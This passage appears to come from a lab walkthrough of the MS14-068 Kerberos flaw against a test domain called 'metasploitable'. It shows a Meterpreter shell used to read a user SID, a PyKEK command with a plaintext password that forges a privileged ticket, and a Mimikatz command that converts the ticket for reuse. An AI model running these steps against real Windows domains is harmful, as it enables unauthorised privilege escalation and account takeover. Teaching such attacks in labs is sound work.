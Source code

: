 The user’s SID can be discovered via the command line:

meterpreter > shell
Process 2808 created.
Channel 5 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32\WindowsPowerShell\v1.0>whoami /user
whoami /user

USER INFORMATION
----------------

User Name             SID                                           
===================== ==============================================
metasploitable\user01 S-1-5-21-2928836948-3642677517-2073454066-1105

We know have all the information required to use PyKEK to generate our privileged TGT:

$ python ms14-068.py -u user01@metasploitable.local -d msfdc01.metasploitable.local -p Password1 -s S-1-5-21-2928836948-3642677517-2073454066
-1105
  [+] Building AS-REQ for msfdc01.metasploitable.local... Done!
  [+] Sending AS-REQ to msfdc01.metasploitable.local... Done!
  [+] Receiving AS-REP from msfdc01.metasploitable.local... Done!
  [+] Parsing AS-REP from msfdc01.metasploitable.local... Done!
  [+] Building TGS-REQ for msfdc01.metasploitable.local... Done!
  [+] Sending TGS-REQ to msfdc01.metasploitable.local... Done!
  [+] Receiving TGS-REP from msfdc01.metasploitable.local... Done!
  [+] Parsing TGS-REP from msfdc01.metasploitable.local... Done!
  [+] Creating ccache file 'TGT_user01@metasploitable.local.ccache'... Done!

Although Mimikatz can load our ccache file using the kerberos::ptc command, at present the Meterpreter Kiwi module only has support for .kirbi files. We can convert our ccache file to kirbi using Mimikatz as follows:

$ wine mimikatz.exe "kerberos::clist TGT_user01@metasploitable.local.ccache /export" exit
p11-kit: couldn't load module: /usr/lib/i386-linux-gnu/pkcs11/gnome-keyring-pkcs11.so: /usr/lib/i386-linux-gnu/pkcs11/gnome-keyring-pkcs11.so:
 cannot open shared object file: No such file or directory
err:winediag:SECUR32_initNTLMSP ntlm_auth was not found or is outdated. Make sure that ntlm_auth >= 3.0.25 is in your path. Usually, you can
 find it in the winbind package of your distribution.
fixme:msvcrt:MSVCRT__setmode fd (1) mode (0x00040000) unknown
fixme:msvcrt:MSVCRT__setmode fd (2) mode (0x00040000) unknown

  .#####.   mimikatz 2.0 alpha (x86) release "Kiwi en C" (Nov 20 2014 01:35:31)
 .## ^ ##.  
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 15 modules * * */
